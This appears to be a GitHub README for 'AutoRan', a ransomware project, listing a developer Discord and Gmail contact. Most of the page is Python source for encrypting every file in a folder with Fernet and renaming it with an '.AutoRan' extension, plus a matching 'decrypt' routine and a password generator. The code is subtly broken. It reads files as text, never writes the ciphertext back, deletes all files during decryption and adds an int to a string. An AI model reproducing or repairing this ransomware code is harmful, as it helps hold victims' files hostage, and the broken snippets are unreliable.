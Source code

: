 # AutoRan
## Help
Dev Discord : https://discord.gg/nhNWu8Sjre

Gmail : blacktechasdf@gmail.com
### AutoRan history 1.0
#### Encrypt
###### Encrypt Source Code

``` python
from cryptography.fernet import Fernet

Encrypt = {}
Files = glob.glob("*.*")

Key = Fernet.generate_key()
F = Fernet(Key)

def Encry():
  try:
    for File in Files:
      with open(File, "r") as fp:
        Data = fp.read()
        Locked = F.encrypt(Data)
        Encrypt[File] = Locked
        os.rename(File, f"{File}.AutoRan")
        FL.insert(END, f"{File} -> {File}.AutoRan")
        fp.close()
  except:
    pass
```

#### Decrypt
##### Decrypt Source Code

``` python
( Encrypt Source Code )

def Decry():
  try:
    for LockData in Encrypt:
      with open(LockData, "w") as fp:
        Data = Encrypt[LockData]
        UnLocked = F.decrypt(Data).decode()
        fp.write(UnLocked)
      os.rename(f"{LockData}.AutoRan", LockData)
      for file in os.listdir():
        os.remove(file)
  except:
    pass
```

#### Password Generate
##### Password Generate Source Code
```python
Password = ""

for i in range(0, 8):
  Password = Password+"x"+random.randrange(10, 100)
```

#### Use cryptography.fernet
